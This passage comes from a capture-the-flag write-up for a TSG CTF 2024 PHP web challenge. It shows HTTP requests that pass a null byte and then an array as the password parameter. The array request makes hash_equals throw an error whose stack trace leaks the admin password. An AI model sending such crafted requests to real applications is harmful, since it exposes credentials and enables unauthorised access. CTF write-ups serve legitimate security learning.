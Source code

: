 In `i_have_been_pwned/scripts/index.php`, we can see that the correct admin password is compared with our POST parameter `password`:

```php
if (isset($_POST["auth"]) and isset($_POST["password"])) {
    [...]
    if ([...]) {
        [...]
    } else if(($_POST["auth"] === "admin") and hash_equals($admin_password, $_POST["password"])) {
        [...]
    }
    [...]
```

Hmm... Again, what if function `hash_equals`'s second argument has a null byte?

```http
POST /index.php HTTP/1.1
Host: 34.84.32.212:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

auth=admin&password=%00
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241216124003.png)

Nope. No errors.

Well, since there's no type check against with our POST parameter `password`, **what if we parse an array**?

```http
POST /index.php HTTP/1.1
Host: 34.84.32.212:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

auth=admin&password[]=
```

Response:

```html
<br />
<b>Fatal error</b>:  Uncaught TypeError: hash_equals(): Argument #2 ($user_string) must be of type string, array given in /var/www/html/index.php:13
Stack trace:
#0 /var/www/html/index.php(13): hash_equals('KeTzkrRuESlhd1V', Array)
#1 {main}
  thrown in <b>/var/www/html/index.php</b> on line <b>13</b><br />
```

Woah! We successfully caused a PHP error and leaked `$admin_password`.

Since **`$admin_password` is 15 characters long**, we don't need to brute force the last remaining character:
